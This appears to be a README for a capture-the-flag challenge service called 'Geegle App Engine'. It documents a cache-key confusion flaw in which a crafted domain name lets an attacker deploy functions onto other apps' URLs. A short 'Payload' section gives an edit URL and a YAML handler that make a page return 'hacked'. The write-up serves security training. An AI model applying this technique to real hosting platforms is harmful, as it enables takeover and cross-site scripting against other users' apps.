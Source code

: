 # gae (Geegle App Engine)

Like Amazon Lambda.

**Feel free to write other services using this infra**

## Vulnerability

Could deploy functions to any domains due to wrong caching rules.

**Normal User**
Domain: example
Path: helloworld

Cache Key: example.apps.geegle.org/helloworld

**Hacker**
Domain: example.apps.geegle.org/haha
Path: lmao

Cache Key: example.apps.geegle.org/haha.apps.geegle.org/lmao

**This would make XSS possible on all GAE apps**

## Payload

Visit http://manage.apps.geegle.org:8056/edit?app=test1.apps.geegle.org:8056/haha

```
---
urls:
  "/test": |-
    gae_rsp = gaeutils.make_response("hacked")
default_handler: |-
  gae_rsp = gaeutils.errorpage("The requested URL %s was not found on this server." % request.path, code=404)
```

http://test1.apps.geegle.org:8056/haha.apps.geegle.org:8056/test becomes hacked

## Known Issue
CPU-intensive code might block the thread... Consider running code in new process.

## author
adamyi
